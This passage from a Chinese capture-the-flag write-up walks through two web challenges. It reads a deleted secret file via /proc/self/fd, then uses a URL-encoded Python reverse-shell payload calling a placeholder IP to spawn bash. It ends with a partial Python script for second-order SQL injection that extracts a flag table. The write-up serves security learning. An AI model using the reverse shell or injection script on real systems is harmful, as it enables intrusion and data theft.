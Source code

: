 在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部（上文是利用 `os.remove(SECRET_FILE)`）删除之后，在 `/proc` 这个进程的 pid 目录下的 `fd` 文件描述符目录下还是会有这个文件的 `fd`，通过这个我们即可得到被删除文件的内容。

尝试之后，在`/proc/self/fd/3`这里读取到`SECRET_FILE`

[![](https://s1.ax1x.com/2020/05/14/YDcxbj.png)](https://s1.ax1x.com/2020/05/14/YDcxbj.png)

然后进行`python`反弹`shell`

`/no_one_know_the_manager?key=reIqMCng8hfnu3wD4RDyKnO76LdgLeOYrb6DuPNLzLc=&amp;shell=python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22xx.xx.xx.xx%22,9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27`

可以成功反弹`shell`,最终在`/root/flag.txt`中得到`flag`:

[![](https://s1.ax1x.com/2020/05/14/YD2Rne.png)](https://s1.ax1x.com/2020/05/14/YD2Rne.png)

`flag`{`75a9190b-44a9-4f39-ba91-950743cbc18d`}``

### <a class="reference-link" name="%E5%BC%A0%E4%B8%89%E7%9A%84%E7%BD%91%E7%AB%99"></a>张三的网站

打开页面，发现是一个登陆页面，注册一个账号看看里面的功能：

[![](https://s1.ax1x.com/2020/05/14/YDRU8P.png)](https://s1.ax1x.com/2020/05/14/YDRU8P.png)

登陆后发现：

[![](https://s1.ax1x.com/2020/05/14/YDRoVJ.png)](https://s1.ax1x.com/2020/05/14/YDRoVJ.png)

页面只回显了用户名，忽然感觉这个题，有点熟悉的感觉了。。。

尝试注册用户名为`2'+123+'`，尝试登陆：

[![](https://s1.ax1x.com/2020/05/14/YDft6f.png)](https://imgchr.com/i/YDft6f)

这不是上一届网鼎杯的原题吗？

直接拿脚本改一改：

```
import requests
import string
import re as r
import sys

reload(sys)
sys.setdefaultencoding("utf8")


url= "http://906482149bf841c0b701c2f92bfaaa213b708f2173aa4e0b.cloudgame1.ichunqiu.com/"


ch = '0123456789qwertyuiopasdfghjklzxcvbnm`{`-`}`'

re = requests.session()
flag = ''
for j in range(1,50):
    # payload = "0'+(select ascii(substr((database()) from  `{``}` for `{``}`)))+'0".format(int(j),1)
    payload = "0'+(select ascii(substr((select * from flag) from  `{``}` for `{``}`)))+'0".format(int(j),1)
    email = '`{``}`aaaa@qq.com'.format(str(j)+'kslaml')
    url1 = url+'register.php' 
    data = dict(email = email, username = payload,password = 'aaaa')
    res = re.post(url1,data=data)


    url2 = url+'login.php'
    data = dict(email = email,password = 'aaaa')
```